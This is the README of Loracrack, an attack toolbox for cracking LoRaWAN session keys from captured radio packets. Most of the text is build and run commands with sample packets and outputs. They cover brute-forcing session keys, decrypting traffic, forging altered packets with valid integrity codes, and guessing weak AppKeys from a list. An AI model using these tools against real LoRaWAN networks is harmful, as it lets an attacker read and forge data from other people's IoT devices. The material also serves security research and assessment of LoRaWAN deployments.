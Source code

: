 Loracrack - LoRaWAN session cracker

By Sipke Mellema
@ Applied Risk '19

Toolbox for cracking LoRaWAN session keys from captured packets
Attack scenario assumes you know the AppKey, but missed the handshake
Or the AppKey isn't random and can be guessed

LoRa handshakes use three values to generate the session keys:
AppNonce | NetID | DevNonce
AppNonce and NetID are 3 bytes, and DevNonce is 2 bytes. Part of the NetID is known, so that leaves 57-bit entropy. And because of implementation flaws this can get way lower.


loracrack
	./loracrack -k <AppKey in hex> -p <raw_packet in hex>

	Cracks session keys if handshake (join-accept) is missed but AppKey is known
	Cracking is done by generating session keys and checking the MIC

	$ gcc loracrack.c includes/*.c -o loracrack -lpthread -lcrypto -O3
	$ ./loracrack -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57

	4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a

	Optional arguments:
		-t threads
		-v verbose (0, 1 or 2)
		-m maximum AppNonce


loracrack_knownpt
	./loracrack_knownpt -k <AppKey in hex> -p <raw_packet in hex> -d <plain_text in hex>
	
	Cracks session keys if handshake (join-accept) is missed but AppKey and plaintext are known
	Cracking is done by decrypting the FRMPayload and checking the plaintext
	It's faster than checking the MIC, since CMAC uses more AES operations

	$ gcc loracrack_knownpt.c includes/*.c -o loracrack_knownpt -lpthread -lcrypto -O3
	$ ./loracrack_knownpt -k 88888888888888888888888888888888 -p 400267bd018005000142d9f48c52ea717c57 -d 33302e3332
	
	4899be88e40088c40abc703fa3ba1195 04068f88b9feee5385c67e033d911b4a

	Optional arguments:
		-t threads
		-v verbose (0, 1 or 2)
		-m maximum AppNonce


loracrack_decrypt
	./loracrack_decrypt -k <decrypt key in hex> -p <raw_packet in hex>

	Decrypts packet data if session key is known

	$ gcc loracrack_decrypt.c includes/*.c -o loracrack_decrypt -lcrypto -O3
	$ ./loracrack_decrypt -k 4899be88e40088c40abc703fa3ba1195 -p 400267bd018005000142d9f48c52ea717c57
	
	30.32


loracrack_alterpacket
	./loracrack_alterpacket -p <raw_packet in hex> -a <AppSKey in hex> -n <NwkSKey in hex> -c <Fctn> -d <new data in hex>

	Alters packet with new data, keeps old things like DeviceAddr

	$ gcc loracrack_alterpacket.c includes/*.c -o loracrack_alterpacket -O3 -lcrypto
	$ ./loracrack_alterpacket -p 400267bd018005000142d9f48c52ea717c57 -a 4899be88e40088c40abc703fa3ba1195 -n 04068f88b9feee5385c67e033d911b4a -c 5 -d 33302d3332

	400267bd018005000142d9f78c521c78573b


loracrack_genkeys
	./loracrack_genkeys -k <AppKey in hex> -j <join_packet in hex> -a <accept_packet in hex>

	Generates session keys given handshake (join and accept packets) and AppKey

	$ gcc loracrack_genkeys.c includes/*.c -o loracrack_genkeys -lcrypto -O3
	$ ./loracrack_genkeys -k 88888888888888888888888888888888 -j 0000000000000000002bd61f000ba304000e1ba147157a -a 20adf6e18980952590fc1f7987a6913f35
	
	4e1dcaf4f02fcd2ecbb1cb0d138fc53d 96eb9e13f0a3468ca580707ee688ee19


loracrack_guessjoin
	./loracrack_guessjoin -p <raw_packet in hex> -f <file with AppKeys in hex>

	Checks if predictable AppKeys are used by checking the MIC on a join packet
	AppKeys are taken from a file with hex-encoded AppKeys on new lines

	$ gcc loracrack_guessjoin.c includes/*.c -o loracrack_guessjoin -lcrypto -O3
	$ ./loracrack_guessjoin -p 0000000000000000002bd61f000ba304002f3b5785cf80 -f guessjoin_genkeys/simplekeys
	
	88888888888888888888888888888888



